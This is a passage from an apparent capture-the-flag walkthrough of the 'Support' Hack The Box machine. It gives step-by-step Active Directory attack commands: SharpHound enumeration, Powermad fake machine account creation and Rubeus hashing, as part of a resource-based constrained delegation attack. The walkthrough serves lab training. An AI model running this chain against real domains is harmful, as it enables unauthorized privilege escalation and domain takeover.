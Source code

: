 It works! We have a connection to the DC as `Support`. We can switch to `C:\Users\support\Desktop` and get the `user.txt` flag. 

Now that we have the `user` flag, we can start our enumeration. There are no shortage of ways to enumerate `Windows` systems. Most are noisy in the real world, but since this isn't the real world, let's use `Bloodhound`. You'll need a recent release of [`SharpHound`](https://github.com/BloodHoundAD/SharpHound).

Now we upload it to the target machine.

Command:
`upload /home/kali/tools/SharpHound-v1.1.0/SharpHound.exe sharp.exe`

Next we run it.

Command:
`./sharp.exe --memcache -c all -d support.htb -DomainController 127.0.0.1 --zipfilename 1.zip`

Then we download the file with the `download` command. Now that we have the file, we can `unzip` it and import it into our local `Bloodhound` instance. We start looking into the compromise graph in `Bloodhound` we see a few `GenericAll` permissions floating around. You can learn more about why this is bad [here](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces) and here - [here](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution).

Essentially, we're going to follow the above blog post. First we need to get `powermad` onto our target. 

Command:
`upload /home/kali/tools/Powermad/Powermad.ps1 pm.ps1`

Then import it via `Powershell`

Command:
`import-module pm.ps1`

Next we need to make the fake machine account.

Command:
`New-MachineAccount -MachineAccount fake69 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose`

We can issue a quick `get-adcomputer fake69` to verify that the machine was indeed created. Normally we would need to do some additional legwork but `Powermad` takes care of that for us :). So next up we need to upload `Rubeus.exe` to the target. First clone the repo.

Command:
`git clone https://github.com/GhostPack/Rubeus.git`

Now we upload it, same as before.

Command:
`upload /home/kali/tools/Rubeus/Rubeus.exe r.exe`

Now w run it and supply it some flags.

Command:
`./r.exe hash /password:123456 /user:FAKE69$ /domain:support.htb`

